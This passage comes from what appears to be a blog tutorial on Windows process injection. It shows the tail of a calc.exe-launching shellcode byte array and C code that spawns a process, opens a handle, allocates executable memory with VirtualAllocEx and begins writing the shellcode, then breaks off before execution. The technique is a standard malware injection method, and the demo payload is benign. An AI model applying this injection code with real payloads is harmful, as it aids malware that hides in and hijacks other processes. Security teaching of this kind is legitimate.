 ```c
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
"\x63\x2e\x65\x78\x65\x00";
```

### 2. &#119135; &#119136; Allocate, Write, Inject, Repeat &#119137; &#119137;

First things first. We need to spawn a new process to inject into. To spawn a new process, we can use the `CreateProcessA` function contained in `kernel32.dll`. We only need a few basic parameters to start a new instance of `calc.exe`.

```c
//holds information about the newly created process, like: process ID, main thread ID, and handles
PROCESS_INFORMATION pi;
//specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time
STARTUPINFO si;

//set the memory to 0
memset(&si, 0, sizeof(si));
memset(&pi, 0, sizeof(pi));

//create a new instance of windows calculator
CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
```

To use our newly spawned process, we need to obtain a handle to it. We can use the `OpenProcess` function contained in `kernel32.dll`. For the sake of keeping this blogpost somewhat short (who am I kidding), we will assume we know the process ID (PID) of our `calc.exe` process. In practice I utilise code to enumerate all the running processes on the machine until I have found `calculator.exe`.

```c
DWORD pid = 6969; //calc.exe
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

Armed with the process handle, we can now allocate some memory, which we will later use to write our shellcode to. To do this, we use the `VirtualAllocEx` function contained in `kernel32.dll`. It is important to specify `PAGE_EXECUTE_READWRITE`, so we later have permission to execude the code located in this memory block. By default, memory that is writeable is not executable and vice versa.

```c
LPVOID shellcode_address = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

The final step before execution, is writing our shellcode to the memory block we just allocated in the target process. To do this, we use the `WriteProcessMemory` function contained in `kernel32.dll`.
